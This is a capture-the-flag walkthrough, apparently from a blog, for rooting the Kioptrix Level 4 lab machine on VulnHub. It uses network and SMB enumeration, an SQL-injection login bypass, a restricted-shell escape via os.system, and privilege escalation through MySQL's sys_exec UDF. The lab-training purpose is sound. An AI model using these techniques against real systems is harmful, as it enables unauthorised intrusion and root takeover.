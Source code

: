 ```yaml
---
layout: post
title: "Kioptrix Level 4"
date: 2022-03-05
categories: [VulnHub, Easy-VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix-level-4.png

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![image](https://user-images.githubusercontent.com/67465230/156876091-8a7d29f5-477a-4f01-ac56-c3c92b95e31d.png)

Okay, so the IP address of the box is 10.0.2.71.

Now, let's start port scanning with nmap,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876096-599dedca-a8c7-40af-8bdb-d4a171e8f104.png)

we can see that there are 3 ports open 22(SSH), 80(http), 139,445(SMB).

Okay, we got SMB service running on this machine, so let's enumerate all users with nmap's smb-enum-users script,

```bash
sudo nmap -sC --script=smb-enum-users 10.0.2.71 -oN nmap_smb-users
```

![image](https://user-images.githubusercontent.com/67465230/156876105-12fc31b4-ae7e-4c04-b4d1-fe65fa3f9444.png)

we got John User.

Let's check what technologies are running on website,

```bash
whatweb http://10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876115-e37ff5a5-a13f-4647-ac5b-f64df1e05eca.png)

It has password field that means there's a login page as well. Great!!

Let's visit http://10.0.2.71,

![image](https://user-images.githubusercontent.com/67465230/156876126-04ccfa62-f079-45cb-b556-d64cf4c12676.png)

we got login page. Since this box has login mechanism then chances are MySQL service might be running as well ( hopefully it does :) ) and this box is vulnerable to SQLi. So let's try to login using structured query,

providing `username=john and password=1' or 1=1#`,

![image](https://user-images.githubusercontent.com/67465230/156876135-0c585504-8c85-44dc-917b-f28587240919.png)

now press login button,

we got in as john user and there we got login creds (SSH ? let's see! ),

![image](https://user-images.githubusercontent.com/67465230/156876148-0c85aacf-c153-4603-b71c-d03d9b0a62eb.png)

Let's ssh using these creds,

```bash
ssh john@10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876153-b9600342-7f69-4d57-9f0c-df0cb3ebde6d.png)

we got shell!!

let's Identify who we are,

```bash
whoami
id
```

![image](https://user-images.githubusercontent.com/67465230/156876160-1bda5222-e187-4caa-a7a0-5e2a672d77af.png)

Huh?? command won't work? let's try other commands.

try to change directory with cd command,

![image](https://user-images.githubusercontent.com/67465230/156876165-2bd7ed92-93d3-4589-8126-3f791f85e2f7.png)

We got warning and looks like if we type one more command then system will throw us out!! It throws me like trash for few times XD. But why? maybe we have under privilege shell. Let's see what commands we can run,

```bash
help
```

![image](https://user-images.githubusercontent.com/67465230/156876199-8fb87519-84f6-4845-a96d-461b777fd4d4.png)

seems like aren't much commands we can run but there echo command seems great friend to us right now. Let's use it to gain a fully functional shell,

```bash
echo os.system("/bin/bash")
```

![image](https://user-images.githubusercontent.com/67465230/156876203-e6260649-e468-4064-8479-f57a995dfc07.png)

we can now identify who we are with whoami command.

Now, that we got access as John user, now we'll move towards Privilege Escalation. For that, do ENUMERATION!!

After some enumeration, I found a file named checklogin.php in /var/www directory. let's view the content of file,

```bash
cat checklogin.php
```

![image](https://user-images.githubusercontent.com/67465230/156876215-fa0ea7f2-655b-401c-947b-59e43e2c57e8.png)

As you can see that, there is no password, so you can easily bypass MYSQL with UDF, [command-execution-with-mysql-udf](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html), means we can escalate our privileges to root!

But before to proceed, let's check whether MySQL service is running with root privileges or not by typing the following command:

```bash
ls -la /user/lib/lib_mysqludf_sys.so
```

![image](https://user-images.githubusercontent.com/67465230/156876228-4ac8649b-a315-47e1-b97b-c6bc4d65525b.png)

Yes, mysql service is running so now, let's connect to mysql database with mysql client.

```bash
mysql -h localhost -u root -p
```

![image](https://user-images.githubusercontent.com/67465230/156876238-74c32a12-eb2d-4807-9e71-df25fdbf6332.png)

show databases; will give you a list of all databases.

Let's run a usermod command with sys_exec to give john admin privileges,

```bash
select sys_exec("usermod -a -G admin john"); exit
```

![image](https://user-images.githubusercontent.com/67465230/156876245-1e4e112f-789c-42d5-bd3c-cf23bddd7c1d.png)

This will add john to admin group and we'll take exit.

Now, let's switch to superuser,

```bash
sudo su
```

![image](https://user-images.githubusercontent.com/67465230/156876266-6021fbd0-bcb8-4407-a746-52f3e1b2b8bd.png)

by providing the password we found after exploiting login mechanism of machine using SQLi, we got system access and we confirmed it using id command.

navigating to /root directory and establish all directory content with ls,

![image](https://user-images.githubusercontent.com/67465230/156876271-4e9bef95-5c01-4e14-82d1-f4c1ea3dbcbb.png)

we got root flag. Let's view the content of it,

```bash
cat congrats.txt
```

![image](https://user-images.githubusercontent.com/67465230/156876296-f852ebbb-0363-4cf0-9061-725ff84e4dd1.png)

We've successfully rooted this machine.